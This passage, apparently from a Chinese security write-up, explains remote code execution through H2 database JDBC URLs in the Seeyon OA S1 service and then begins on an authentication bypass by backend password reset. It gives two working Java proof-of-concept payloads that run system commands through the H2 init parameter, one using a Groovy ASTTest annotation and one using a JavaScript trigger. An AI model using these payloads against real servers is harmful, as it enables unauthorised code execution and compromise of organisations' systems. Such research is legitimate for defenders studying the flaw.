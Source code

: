 ![](https://mmbiz.qpic.cn/mmbiz_png/JkQkSjos6URaM8IqWoZTTrsVVMOMd5f2Yic553jJbnM5SsdJiadkXYI1z0ib8YhGkSMwxeORYANicC6lPfIa4BaWqg/640?wx_fmt=png&from=appmsg "")  
  
这也就意味着我们可以**通过RUNSCRIPT来执行恶意的SQL语句**，但使用RUNSCRIPT意味着，**你的客户端必须出网才有可能利用。**  
  
而我们之所以要使用RUNSCRIPT，本质是**因为常见的恶意SQL执行命令需要两句**，**而**session.prepareCommand  
**并不支持执行多行语句**  
```
CREATE ALIAS RUNCMD AS $$<JAVA METHOD>$$;CALL RUNCMD(command)
```  
  
在Spring Boot H2 console的源码中，我们可以继续寻找问题的解决办法，在SQL语句当中的JAVA方法将会执行到org.h2.util.SourceCompiler  
,一共有三种编译器，**分别是Java/Javascript/Groovy**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/JkQkSjos6URaM8IqWoZTTrsVVMOMd5f23Y3HQDDkwkALkwwRNhWiaw4m2Zu2BnY1aSTs6LicqryRXwYIdW77nicKg/640?wx_fmt=png&from=appmsg "")  
  
**如果满足source开头是**//groovy  
**或者是**@groovy  
**就会使用对应Groovy引擎。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/JkQkSjos6URaM8IqWoZTTrsVVMOMd5f29MkJUHPFChg2E3vpPglLGvhNMHBhicnK4kSIABz6fLHdpEq4SYdnDMw/640?wx_fmt=png&from=appmsg "")  
  
**利用**@groovy.transform.ASTTEST   
**就可以使用assert来执行命令**  
```
public static void main (String[] args) throws ClassNotFoundException, SQLException {    String groovy = "@groovy.transform.ASTTest(value={" + " assert java.lang.Runtime.getRuntime().exec(\"open -a Calculator\")" + "})" + "def x";    String url = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE ALIAS T5 AS '"+ groovy +"'";    Connection conn = DriverManager.getConnection(url);    conn.close();}
```  
  
**除了Groovy以外还有JavaScript的利用方案**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/JkQkSjos6URaM8IqWoZTTrsVVMOMd5f2YEK5yKe047SROkkTupDWQasia5w6YZFU9SxUfvXAXOpicool6iafPR9kA/640?wx_fmt=png&from=appmsg "")  
```
public static void main (String[] args) throws ClassNotFoundException, SQLException {    String javascript = "//javascript\njava.lang.Runtime.getRuntime().exec(\"open -a Calculator.app\")";    String url = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER hhhh BEFORE SELECT ON INFORMATION_SCHEMA.CATALOGS AS '"+ javascript +"'";    Connection conn = DriverManager.getConnection(url);    conn.close();}
```  
## 致远oa S1服务 后台用户密码重置导致的鉴权绕过  
  
在前面找到对应的利用方案之后，**当我们尝试去做利用的时候会发现其实后台有额外的权限验证**。直接访问testDBConnenction，会报**非法访问的错误。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/JkQkSjos6URaM8IqWoZTTrsVVMOMd5f2UgDMLayWKLm5yIdlC2X2Ye8gHrsaPbsiaJz2M4OHguiblIyWNiasIT8eg/640?wx_fmt=png&from=appmsg "")  
  
这是**因为没有传入对应的token**，在com.seeyon.agent.common.utils.TokenUtils  
中可以找到对应的检查  
  
![](https://mmbiz.qpic.cn/mmbiz_png/JkQkSjos6URaM8IqWoZTTrsVVMOMd5f2zapcwzy9ib0NianE9ia6TNpicYEzXKVicEjshyyNZAzuib5MR8hzicbf1MUhA/640?wx_fmt=png&from=appmsg "")  
  
这里的tokenMap可以在com.seeyon.agent.common.getway.GetWayController  
找到**对应的写入位置**  
  